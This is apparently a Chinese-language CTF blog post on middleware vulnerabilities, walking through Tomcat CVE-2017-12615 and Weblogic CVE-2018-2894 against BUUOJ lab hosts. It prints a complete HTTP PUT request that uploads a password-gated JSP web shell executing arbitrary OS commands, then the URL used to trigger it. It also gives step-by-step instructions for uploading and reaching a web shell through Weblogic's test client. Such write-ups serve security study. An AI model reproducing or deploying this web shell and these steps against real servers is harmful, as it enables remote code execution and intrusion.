 ```yaml
---
layout: post
title:  中间件安全
date:   2022-06-14 00:08:01 +0300
image:  2022-06-14-oktoberfest.jpg
tags:   [web]
---
```


Tomcat远程代码执行（CVE-2017-12615）

文件名后面跟一个'/'

```assembly
PUT /1.jsp/ HTTP/1.1
Host: node4.buuoj.cn:29901
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type:application/x-www-form-urlencoded
Content-Length: 386

<%
    if("x".equals(request.getParameter("pwd")))
    {
        java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1)
        {
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

http://node4.buuoj.cn:29901/1.jsp?pwd=x&i=env

得到flag

# Weblogic（CVE-2018-2894）

访问`http://your-ip:7001/ws_utc/config.do`，设置Work Home Dir为`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`。我将目录设置为`ws_utc`应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。

然后点击安全 -> 增加，然后上传webshell：

得到时间戳1655292906166

然后访问`http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]`，即可执行webshell